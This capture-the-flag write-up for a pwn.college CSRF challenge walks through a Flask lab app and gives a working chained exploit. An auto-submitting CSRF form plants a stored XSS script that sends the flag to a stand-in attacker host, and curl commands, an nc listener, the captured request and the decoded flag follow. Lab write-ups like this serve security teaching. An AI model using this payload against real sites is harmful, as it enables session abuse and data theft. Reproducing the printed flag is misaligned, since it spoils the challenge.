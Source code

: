 # CSRF-5 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a Flask application using a temporary SQLite database. The goal is to exploit a **Cross-Site Request Forgery (CSRF)** vulnerability that tricks the victim (admin bot) into submitting a form containing malicious JavaScript. This script is then executed by the admin’s browser, allowing us to exfiltrate sensitive data (e.g., the flag).

## 📜 Server Behavior

The server has the following key endpoints:

- `/login`: logs in a user and sets a session cookie.
- `/draft`: allows creating a post, with optional `publish=on`.
- `/publish`: renders the published post with JavaScript enabled.
- `/victim`: simulates the admin visiting the page.
- `/`: homepage, includes the flag in source.

## 🎯 Objective

Make the admin visit a malicious page that submits a CSRF form to `/draft` with a payload that publishes a post containing XSS JavaScript. This JavaScript grabs the flag from `/` and sends it to our server.

---

## 💣 Attack Strategy

1. Host a malicious HTML page.
2. The page auto-submits a CSRF form to `/draft` with `content` containing a `<script>` tag.
3. The script:
   - Fetches the homepage (`/`)
   - Extracts the flag using regex
   - Sends the flag to our server via query string

---

## 🛠️ Attack HTML (Payload)

Save this as `index.html`:

```html
<html>
  <body>
    <form id="csrf" action="http://challenge.localhost:80/draft" method="POST">
      <input type="hidden" name="content" value='<script>
        fetch("/") 
          .then(r => r.text())
          .then(t => {
            let flag = t.match(/pwn\.college\{.*?\}/);
            if (flag) {
              fetch("http://hacker.localhost:1338/?" + btoa(flag[0]));
            }
          });
      </script>'>
      <input type="hidden" name="publish" value="on">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
### Hosting the Payload
Host the file on port 1337:
```
python3 -m http.server 1337
```
### Get Session Cookie (as hacker)
```bash
curl -i -s -X POST http://challenge.localhost/login \
  -d "username=hacker&password=1337" \
  -c cookie.txt
```
Extract the session cookie from response headers:
```
Set-Cookie: session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.<sig>
```

### Post the Payload
Submit the draft using the session cookie:
```bash
curl -X POST http://challenge.localhost/draft \
  -b "session=<your_cookie>" \
  -d "content=<script>...flag steal script...</script>&publish=on"
```

### Trigger the Admin Visit
Simulate the admin visiting the attacker's page:
```
curl http://challenge.localhost/victim
```
This will load your http://hacker.localhost:1337/ page, triggering the auto-submit CSRF.


### Catch the Flag
Run a listener to capture exfiltrated data:
```
nc -lvnp 1338
```
You will see:
```
GET /?cHduLmNvbGxlZ2V7WmZZYnpFT0pOeFlYdEt6dEpBTXdFS1RkeVZTSHZMRW1Oek5MeU93MHpNdXJqTzBZMHl9 HTTP/1.1
```
Decode the base64:
```bash
echo 'cHduLmNvbGxlZ2V7WmZZYnpFT0pOeFlYdEt6dEpBTXdFS1RkeVZTSHZMRW1Oek5MeU93MHpNdXJqTzBZMHl9' | base64 -d
```
Output:
```bash
pwn.college{ZfYbzEOJNyXYtKztJAMwEKTdyVSHvLEmNzNLyOw0zMurjO0Y0y}
```
---
##  Final Flag
```
pwn.college{ZfYbzEOJNyXYtKztJAMwEKTdyVSHvLEmNzNLyOw0zMurjO0Y0y}
```
---

